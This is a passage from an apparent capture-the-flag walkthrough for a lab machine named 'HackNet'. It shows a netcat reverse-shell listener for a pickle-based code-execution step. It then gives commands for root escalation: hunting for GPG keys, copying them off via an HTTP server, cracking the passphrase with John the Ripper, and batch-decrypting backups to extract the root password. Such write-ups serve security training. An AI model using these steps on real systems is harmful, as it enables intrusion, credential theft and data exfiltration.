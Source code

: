 Trigger `/explore` while listening with:

```bash
nc -lvnp 4444
```

*Learning point:* Untrusted pickles are dangerous; file-based caches can be exploited for RCE.

---

## Act 7 — Root via GPG and Backup Decryption

**Step 1: Explore sandy’s home for keys**

```bash
ls -la /home/sandy/
ls -la /home/sandy/.gnupg/
find /home/sandy -name "*.asc" -o -name "*private*" 2>/dev/null
```

* Copy `armored_key.asc` to your local machine using `python3 -m http.server 8000` or `scp`.

**Step 2: Crack key passphrase**

```bash
gpg2john armored_key.asc > gpg_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt gpg_hash.txt
```

**Step 3: Locate encrypted backups**

```bash
find /var/www -name "*.gpg" 2>/dev/null
ls -la /var/www/HackNet/backups/
```

**Step 4: Create batch decryption script**

```bash
#!/bin/bash
KEY_PATH="$HOME/.gnupg/private-keys-v1.d/armored_key.asc"
BACKUP_DIR="/var/www/HackNet/backups"
OUTPUT_DIR="/tmp"
PASSPHRASE="DISCOVERED_PASSPHRASE"
gpg --import "$KEY_PATH"
for file in "$BACKUP_DIR"/*.gpg; do
    [ -f "$file" ] || continue
    filename=$(basename "$file" .gpg)
    outpath="$OUTPUT_DIR/${filename}.sql"
    echo "[*] Decrypting $file → $outpath"
    gpg --batch --yes --passphrase "$PASSPHRASE" --pinentry-mode loopback -o "$outpath" -d "$file"
done
echo "[+] Decryption complete. Files in $OUTPUT_DIR"
```

**Step 5: Run script and retrieve decrypted files**

```bash
chmod +x decrypt_backups.sh
./decrypt_backups.sh
python3 -m http.server 8000  # fetch decrypted backups to local machine
cat /tmp/backup0* | grep password  # get root password
```
